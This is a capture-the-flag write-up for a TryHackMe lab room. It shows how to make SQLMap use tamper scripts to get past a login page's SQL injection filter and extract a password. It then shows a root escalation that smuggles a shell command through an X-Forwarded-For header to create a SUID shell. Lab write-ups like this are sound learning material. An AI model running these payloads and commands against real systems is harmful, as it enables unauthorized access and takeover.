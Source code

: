 # Kitty - solving with SQLMap

https://tryhackme.com/room/kitty, rated Medium

I didn't get this the first time it was up, making some bad assumptions, but eventually when I had a go and discovered it was complex SQL injection, designed so that [SQLMap](https://github.com/sqlmapproject/sqlmap) would not be usable, I RESOLVED to figure out how to use SQLMap instead of custom scripting - this was not because custom scripting would be difficult, or not fun, but because finding edge cases where SQLMap won't work and then figuring out how to MAKE it work is a challenge on its own, and helps you learn the inner complexities of this complex and very useful tool.

## Initial Enumeration

An initial scan reveals 22 and 80. On the website, there is a login page at index.php, a register.php page, and once you login an information-less welcome.php and a link to logout.php. Two features become apparent with additional testing:

  - the login form will report 'SQL Injection detected. This incident will be logged!' if you use ` or ` in one of the form fields.
  - the register form will report if a username has already been used. by leveraging this with a brute forcing tool like ffuf you can discover that the username 'kitty' already exists

Despite the login forms filter (or perhaps *because* of it) trying different SQL injection payloads will eventually reveal you can bypass the login with a username like `' union select 1,2,3,4 -- `. However, welcome.php continued to have nothing useful. Knowing that their is a user named `kitty`, and SSH is open, the path forward appeared to be (correctly) that getting the user's site password might work over SSH.

## Getting SQL Map to work

0. In order to solve this we will need some tamper scripts only available with the latest versions of SQLMap (not the default on the attackbox). So best to grab the latest and use `python3 sqlmap.py` rather than the built in `sqlmap`: `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`. The version I used was `1.8.2#stable`.

> Additionally, I created a user **test** and **test11**, to use as a valid positive (this works with the inference that sql map users, which will be something like 'select password where username = test and inference'.

1. To start, with SQLMap we can use an existing request or a URL with some flags. This is basically preference, but for clarity I will use the latter option:

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms`

2. Further experimentation will reveal the database as MySQL (determined by some query options not being evaluated etc) so to simplify things you can append `--dbms=mysql -p username` to both restrict to MySQL and just focus on the username field. Additionally `--skip-heuristic` will cut back noise, as we already know this field is vulnerable (and SQLMap will think it isn't). Finally, because there is a session cookie that won't change when a successful bypass executes, and which sql map by default adopts, we need to ignore the set-cookie flag: `--drop-set-cookie`:

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --skip-heuristic --drop-set-cookie`

3. Next step is identifying the type of injection this is. As there is no feedback to the user in terms of returned content, its a 'blind injection' (`--technique=B`), as long as we can get some sort of true or false difference between responses. In this case, false returns a 200 code (invalid username or password) while true redirects with 302: `--code=302` will tell SQLMap to treat 302's as a success message.

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --skip-heuristic --drop-set-cookie --technique=B --code=302`

4. In a normal situation, most of the above (except `-u` and `--forms`) probably wouldn't be necessary, but we want to cut the noise down and get results quick because investigation of the SQL Injection filter is trial and error. To test specifically I created a custom test, and specified it using `--test-filter=kitty`: the following was added to `data/xml/payloads/boolean_blind.xml`:

   ```xml
   <test>
        <title>CUSTOM kitty blind</title>
        <stype>1</stype>        <!-- boolean-based -->
        <level>1</level>        <!-- run always -->
        <risk>1</risk>                  <!-- low risk -->
        <clause>0</clause>      <!-- no conditions -->
        <where>3</where>        <!-- replace original value -->
        <vector>test' AND [INFERENCE] -- </vector>   <!-- once detected, how to exploit -->
        <request>
            <payload>test' AND 1=1 -- </payload>       <!-- test to see if it worked -->
        </request>
        <response>
            <comparison>badtest</comparison>   <!-- compare to to see if it failed (nothing) -->
        </response>
        <details>
            <dbms>MySQL</dbms>  <!-- target database -->
        </details>
    </test>
   ```

   By using this test, we *know* it will be exploitable.

5. Finally, to debug what the waf filter is, we specify `-v 3` through to `-v 5` as needed: this will print out the post data used, and what is returned (when v=5). Final query for testing is something like:

    `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --skip-heuristic --drop-set-cookie --technique=B --code=302 --test-filter=kitty -v 5`

   Through the above we can see when calls return with `SQL Injection detected...`. Taking these queries, e.g. 

    `test' UNION SELECT 1,2,3,4 WHERE ORD(MID((IFNULL(CAST(DATABASE() AS NCHAR)),0x20,CAST(DATABASE() AS NCHAR)),1,1))>127 --`

   We can put this into burp suite or similar, and modify it until the error goes away. In the above, three things trigger the error: `ORD` as it contains OR presumably, `0x20` (or any other 0x character) and `IFNULL`.

6. So how to fix this? Fortunately, SQLMap has a thing called 'tamper scripts', which you can see here: https://github.com/sqlmapproject/sqlmap/tree/master/tamper. These can be specified by script name with `--tamper`. And fortunately there are three that solve the specific problems above:

    - `hex2char.py` replaces `0x20` with `Char(32)`
    - `ifnull2ifisnull.py` replaces `IFNULL()` with `IF(ISNULL(),)`
    - `ord2ascii.py` replaces `ORD` with `ASCII`

    With these three tamper scripts, specified `--tamper=ord2ascii,ifnull2ifisnull,hex2char` we can effectively avoid the WAF filter the site has.

Now all these pieces are in place, the injection is possible with SQLMap! In fact, the final query can be simplified and doesn't require the above custom test:

  `python3 sqlmap.py -u http://10.10.140.235/index.php --forms --dbms=mysql -p username --code=302 --dump --tamper=ord2ascii,ifnull2ifisnull,hex2char --skip-heuristic --drop-set-cookie --flush-session`

(Here `--flush-session` doesn't used any cached tests, and can be useful to ignore any remnants from experiments)

The above query will reveal the kitty user's password, which works over SSH :) 

> When it runs SQLMap will ask you a number of questions. Most of them will be fine with defaults, except you dont want to follow redirects and you need to edit the form field values to include the valid username and password created earlier. For reference, here are the questions and the answers:
> - do you want to test this form? Y
> - Edit POST data [default: username=&password=] (Warning: blank fields detected): username=test&password=test11
> - got a 302 redirect to 'http://10.10.229.44/welcome.php'. Do you want to follow? n
> - are you sure that you want to continue with further target testing? Y
> - do you want to (re)try to find proper UNION column types with fuzzy test? N
> - injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? Y
> - POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? N
> - do you want to exploit this SQL injection? Y

## Privesc to root

The focus of this writeup is getting SQLMap working, but I'll finish with the root privesc. The pieces required from local enumeration are as follows:

- there are two sites on the box, both under /var/www. They are identical, though one which is only accessible internally at localhost:8080 does the following when SQL Injection is detected:
    ```php
    if (preg_match( $evilword, $username )) {
        echo 'SQL Injection detected. This incident will be logged!';
        $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
        $ip .= "\n";
        file_put_contents("/var/www/development/logged", $ip);
        die();
    }
    ```
    notably, `/var/www/development/logged` is not writable by the kitty user, so going via the website's logging system is the only option.
- on the box you can also find `/opt/log_checker.sh`. The contents of this are:

    ```bash
    #!/bin/sh
    while read ip;
    do
      /usr/bin/sh -c "echo $ip >> /root/logged";
    done < /var/www/development/logged
    cat /dev/null > /var/www/development/logged
    ```
- finally, by bringing over [pspy64](https://github.com/DominicBreuker/pspy) or similar you can observe that root runs `/bin/sh -c /usr/bin/bash /opt/log_checker.sh`, presumably as part of a cronjob.

The solution is by putting some command injection into the log file, e.g. `; cp /bin/sh /tmp/sh && chmod u+s /tmp/sh;` which will create a suid `sh` copy. This can be done in the local kitty session witha  curl command like: `curl -X POST -H "X-Forwarded-For: ; cp /bin/sh /tmp/sh && chmod u+s /tmp/sh;" -d "username=+or+&password=test" localhost:8080` - this triggers the injection waf and puts the command in the log file, which then gets executed and creates a suid binary you can use to jump to root with `/tmp/sh -p` :)
